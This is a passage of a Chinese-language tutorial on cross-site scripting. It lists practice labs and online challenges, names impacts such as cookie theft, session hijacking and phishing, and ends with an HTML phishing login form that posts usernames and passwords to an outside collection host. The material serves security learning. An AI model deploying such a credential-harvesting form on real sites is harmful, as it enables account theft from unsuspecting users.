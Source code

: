 指会一直留存于对应应用系统内，且如不删除操作会预留至系统内；一旦点击后会触发恶意代码，而且如不删除会每次点击都会触发。

### 漏洞环境

值得推荐的本地漏洞环境可参考如下：

````
DVWA:https://github.com/digininja/DVWA.git
本地搭建XSS:https://zhuanlan.zhihu.com/p/54041627
bwapp:http://www.itsecgames.com/
其他环境待更新...
````

### 在线挑战

值得推荐的线上挑战赛：

```
https://xz.aliyun.com/t/2296
https://xss-quiz.int21h.jp/
其他环境待更新...
```

### 影响范围

按不同类型分析对目标系统会产生哪些影响范围

#### 反射型

Cookie欺骗/Cookie会话攻击（提前搭建接收Cookie文件）

XSS History Hack(利用：getComputedStyle()方法)

#### 存储型

Cookie欺骗/Cookie会话攻击

会话劫持(Session/Cookie)

网络钓鱼

钓鱼脚本

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>login</title>
</head>
<body>
    <form method="POST" action="http://xss-lab.me:8888/get.php">
        <input type="text" name="username" value="test"/><br>
        <input type="password" name="password" value="Pass"/><br>
        <input type="submit" name="login" value="Submit">
    </form>
</body>
</html>
```
